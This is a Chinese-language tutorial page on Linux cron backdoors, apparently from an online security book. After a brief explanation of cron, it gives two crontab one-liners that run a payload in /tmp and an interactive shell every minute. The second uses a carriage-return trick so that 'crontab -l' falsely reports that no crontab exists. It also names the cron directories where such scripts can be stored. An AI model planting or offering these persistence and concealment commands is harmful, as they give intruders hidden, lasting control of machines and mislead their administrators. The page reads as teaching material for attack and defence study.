



# Cron 后门

> 原文：[http://book.iwonder.run/安全技术/Linux 后门/7.html](http://book.iwonder.run/安全技术/Linux 后门/7.html)

**Cron 介绍**

在 Linux 系统中，计划任务一般是由 cron 承担，我们可以把 cron 设置为开机时自动启动。cron 启动后，它会读取它的所有配置文件（全局性配置文件/etc/crontab，以及每个用户的计划任务配置文件），然后 cron 会根据命令和执行时间来按时来调用工作任务。

**Cron 后门**

> cron 表达式在线生成：

[http://qqe2.com/cron](http://qqe2.com/cron)

```
(crontab -l;echo '*/1 * * * * /bin/bash /tmp/1.elf;/bin/bash --noprofile -i')|crontab - 
```



这样执行会在 crontab 列表里出现，如果是如上执行的话，管理员执行 crontab -l 就能看到执行的命令内容不是特别隐蔽。

那么就有了一个相对的高级用法，下面命令执行后会显示”no crontab for root”。其实就达到了一个隐藏的效果，这时候管理员如果执行 crontab -l 就会看到显示”no crontab for root”。

```
(crontab -l;printf "*/1 * * * * /bin/bash /tmp/1.elf;/bin/bash --noprofile -i;\rno crontab for `whoami`%100c\n")|crontab - 
```



实际上是他将 cron 文件写到文件中。/var/spool/cron/crontabs/root 。而 crontab -l 就是列出了该文件的内容。

通常 cat 是看不到这个的，只能利用 less 或者 vim 看到，这也是利用了 cat 的一个缺陷，后面会讲到。



/etc/cron.d/ /etc/cron.daily/ /etc/cron.weekly/ /etc/cron.hourly/ /etc/cron.monthly/ 这几个路径都可以存放 cron 执行脚本,对应的时间不同。

